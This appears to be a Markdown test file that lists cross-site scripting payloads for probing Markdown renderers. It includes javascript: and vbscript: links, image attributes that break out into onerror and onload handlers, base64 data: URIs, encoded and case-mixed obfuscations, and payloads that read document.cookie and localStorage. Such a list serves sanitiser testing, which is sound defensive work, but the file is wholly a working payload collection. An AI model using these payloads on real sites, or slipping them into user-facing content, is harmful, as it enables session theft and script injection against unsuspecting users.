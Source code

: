 # XSS

## Test

[Нажмите на меня](javascript:alert('Ой...'))

![Ой...]("onerror="alert('XSS'))

![Ой...](https://www.example.com/image.png"onload="alert('XSS'))

Links

[Basic](javascript:alert('Basic'))

[Local Storage](javascript:alert(JSON.stringify(localStorage)))

[CaseInsensitive](JaVaScRiPt:alert('CaseInsensitive'))

[URL](javascript://www.google.com%0Aalert('URL'))

[In Quotes]('javascript:alert("InQuotes")')

## Images

![Escape SRC - onload](https://www.example.com/image.png"onload="alert('ImageOnLoad'))

![Escape SRC - onerror]("onerror="alert('ImageOnError'))

## Fuzzing

[XSS](javascript:prompt(document.cookie))

[XSS](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))

[XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)


[XSS](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)

[XSS]: (javascript:prompt(document.cookie))

[XSS](javascript:window.onerror=alert;throw%20document.cookie)

[XSS](javascript://%0d%0aprompt(1))

[XSS](javascript://%0d%0aprompt(1);com)

[XSS](javascript:window.onerror=alert;throw%20document.cookie)

[XSS](javascript://%0d%0awindow.onerror=alert;throw%20document.cookie)

[XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)

[XSS](vbscript:alert(document.domain))

[XSS](javascript:this;alert(1))

[XSS](javascript:this;alert(1&#41;)

[XSS](javascript&#58this;alert(1&#41;)

[XSS](Javas&#99;ript:alert(1&#41;)

[XSS](Javas%26%2399;ript:alert(1&#41;)

[XSS](javascript:alert&#65534;(1&#41;)

[XSS](javascript:confirm(1)

[XSS](javascript://www.google.com%0Aprompt(1))

[XSS](javascript://%0d%0aconfirm(1);com)

[XSS](javascript:window.onerror=confirm;throw%201)

[XSS](�javascript:alert(document.domain&#41;)

![XSS](javascript:prompt(document.cookie))\

![XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\

![XSS'"`onerror=prompt(document.cookie)](x)\

